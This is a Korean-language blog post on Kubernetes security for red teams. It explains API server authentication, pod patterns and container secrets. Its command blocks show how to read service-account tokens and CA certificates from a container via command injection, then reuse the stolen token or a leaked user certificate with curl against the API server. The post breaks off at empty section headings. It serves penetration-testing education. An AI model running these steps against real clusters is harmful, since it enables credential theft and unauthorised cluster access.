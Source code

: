 ```yaml
---
title: "[K8S] Security"
# author: wrkholic84
date: 2024-02-08 00:06:00 +0900
categories: [Development, Kubernetes]
tags: [kubernetes, security]
math: true
mermaid: true
# image:
#   path: /commons/devices-mockup.png
#   width: 800
#   height: 500
#   alt: Responsive rendering of Chirpy theme on multiple devices.
---
```


# Kubernetes for RedTeam
Kubernetes에 대한 경험과 이해가 다르고,
보안 취약점 점검 시 관련 내용에 대한 접근이 어려운 이유로,
kubernetes 취약점 발견과 연구를 충분히 수행하기에 어려움이 있음  
이를 위해, 다음 과정을 통해 kubernetes에 대한 정리와 점검 방법에 대한 평준화를 이루고자 함

## 1.Prerequisite Knowledge
### 1.1.Abstract Concept
![00](/assets/images/posts/20221226Security/00.png)
일반적으로 Kubernets 환경에 구축된 서비스는 위 그림과 같이 Apiserver와 Service 두 개의 접근 경로를 가짐.  
- Apiserver는 kubernetes 환경 전체를 제어
- Service(kuberntes resource)는 웹서비스를 인터넷과 연결해주는 역할 및 파드간 통신에 사용

우리의 목표는 이 두 가지 경로를 통해 취약점을 찾고, 안전한 서비스를 만드는 것.

### 1.2.ApiServer
**Apiserver**는 kubernetes 자체라고 봐도 무방함. api를 호출하는 방식으로 권한에 따라 kubernetes 전체 환경을 제어할 수 있음. 성공적인 api 호출은 인증 > 권한 > Admission Control 3단계를 모두 통과해야 함.

- Admission Control : 리소스 사용 제한 등  

RBAC이라고 하는 인증 (사용자, 서비스)에 권한(역할)이 부여되는 구조로, 인증 정보를 얻으면 인증에 해당하는 권한을 행사할 수 있음. 권한 및 Admission Control 관리를 위한 별도의 권한(관리자) 및 과정 필요.  

따라서 우리가 접근하여 활용할 수 있는 부분은 **인증**에 한정됨. 

Kubernetes의 인증은 다른 시스템과 마찬가지로 **사용자 인증**과 **서비스 인증**으로 나뉨. 이 두 가지 중 한 가지로 Apiserver를 호출 할 수 있음. 

- 사용자 인증 정보는 운영 환경이나 서비스 환경에 <U>인증서</U> 형태로 존재.  
- 서비스 인증 정보는 애플리케이션(컨테이너) 내 <U>토큰</U> 형태로 존재.

둘 중 하나의 정보를 얻기 위해 노력해야 함.

### 1.3.Pod Design Pattern
Pod는 Kubernetes에 의해 관리되는 애플리케이션의 최소 단위이며, 여러 컨테이너들의 집합.  
다음과 같은 패턴을 가짐.
![01](/assets/images/posts/20221226Security/01.png)
굳이 패턴 이야기를 하는 이유는 우리가 Command Injection이나 SSRF등의 애플리케이션 취약점을 이용해 접근할 수 있는 자원에 대한 이해를 높이기 위함임.

- Sidecar : Metric, Log 등을 위한 용도로 많이 쓰임. Istio가 대표적. 파일 시스템을 공유하고 있는 부분이 공략 포인트.
- Adapter : 애플리케이션의 출력 포멧을 통일 시키는 용도로 쓰임. 몰라도 됨.
- Ambassador : localhost를 목적지로 통신하는 애플리케이션을 쉽게 배포할 때 쓰임. 예를 들어, 애플리케이션이 localhost:3306(MySQL)과 통신한다면, Ambassador 컨테이너는 이 요청을 받아 필요한 목적지로 연결해줌. SSRF 시 고려해볼 수 있음.

### 1.4.Container
Pod 안에 정의되며, 다음과 같은 다양한 자원들을 정의하여 사용 가능.
- ServiceAccount : Pod가 ApiServer와 상호 작용할 수 있도록 권한을 부여해 놓은 자격 증명
- Secret : 암호, 토큰 또는 키와 같은 소량의 중요한 데이터를 포함하는 오브젝트
- ConfigMap : Key - Value 값 쌍으로 기밀이 아닌 데이터를 저장하는 데 사용하는 API 오브젝트
- Volume : 영구적으로 사용 가능한 Pod 외 지정된 별도 저장소

취약점 점검을 하다보면 애플리케이션 서버의 쉘을 획득할 수 있는 때가 있는데, 이 때, 이 정보들을 확인할 필요가 있고, 이 정보를 통해 추가 보안 취약점을 찾을 수 있음.
## 2.Call ApiServer
Apiserver에 접근할 수 있는 경로는 두 가지임. 인터넷 또는 Data Plane. 호출 가능한 곳에서 호출하면 되고, 아래 설명은 한 가지씩 나누어 호출해보는 것으로 설명.
### 2.1.with User Certificate (from Internet)
취약점 등을 통해 사용자 인증서와 키를 얻었다면 apiserver를 호출 할 수 있음
```bash
ubuntu@mypc:~$ curl -k --cert ./user.crt --key ./user.key https:/kubernetes:6443/api
{
  "kind": "APIVersions",
  "versions": [
    "v1"
  ],
  "serverAddressByClientCIDRs": [
    {
      "clientCIDR": "0.0.0.0/0",
      "serverAddress": "x.x.x.x:6443"
    }
  ]
}
```
사용자 인증서와 키는 base64로 인코딩되어 있을 수도 있음
```bash
ubuntu@mypc:~$ cat ./user.crt | base64 | tr -d "\n" 
LS0tLS1C...
ubuntu@mypc:~$ cat "LS0tLS1C..." | base64 -d
-----BEGIN CERTIFICATE-----
MIIDTzCCAjegAwIBAgIQYPmmYnZ...
-----END CERTIFICATE-----
```
### 2.2.with ServiceAccount Token (in Containers)
Command Injection 등을 통해 컨테이너 내부에 명령 실행을 할 수 있다면,
#### 2.2.1.get Kubernetes Information from env
```bash
Command Injection : env | grep -i kubernetes
KUBERNETES_PORT_443_TCP_PORT=443
KUBERNETES_SERVICE_PORT_HTTPS=443
KUBERNETES_PORT=tcp://10.96.0.1:443
KUBERNETES_SERVICE_HOST=10.96.0.1
KUBERNETES_SERVICE_PORT=443
KUBERNETES_PORT_443_TCP=tcp://10.96.0.1:443
KUBERNETES_PORT_443_TCP_ADDR=10.96.0.1
KUBERNETES_PORT_443_TCP_PROTO=tcp
```
#### 2.2.2.get Kubernetes Information from nslookup
```bash
Command Injection : nslookup kubernetes.default.svc
Server:		10.96.0.10
Address:	10.96.0.10#53

Name:	kubernetes.default.svc.cluster.local
Address: 10.96.0.1
```
#### 2.2.3.get Kubernetes Information from ServiceAccount
```bash
Command Injection : cat /var/run/secrets/kubernetes.io/serviceaccount/token
eyJhbGciOiJSUz ...
Command Injection : cat /var/run/secrets/kubernetes.io/serviceaccount/namespace
hack8s
Command Injection : cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt
-----BEGIN CERTIFICATE-----
MIIDB ...
```
안되는 명령들이 있을 수 있지만, token만 확인이 된다면, 아래 명령을 통해 apiserver를 호출해 볼 수 있음.
```bash
Command Injection : cat /var/run/secrets/kubernetes.io/serviceaccount/token
eyJhbGciOiJSUzI...
Command Injection : curl --cacert /var/run/secrets/kubernetes.io/serviceaccount/ca.crt --header "Authorization: Bearer eyJhbGciOiJSUzI..." -X GET https://kubernetes:6443/api/v1/namespaces/hack8s/pods
{
  "kind": "PodList",
  "apiVersion": "v1",
  "metadata": {
    "resourceVersion": "266526"
  },
  "items": [
    {
      "metadata": {
        "name": "busybox",
        ...
      }
    }
  ]
}
```
## 3.SSRF
Kubernetes HelmChart를 획득했다면, 다음 시도를 해보는 것도 도움이 될 수 있음
애플리케이션 취약점 분석을 위해 개발자 도구를 활용하듯, Kubernetes 취약점 분석을 위해 CD(Continuous Delivery) 툴을 활용해보자.
### 3.1.
## 4.Service
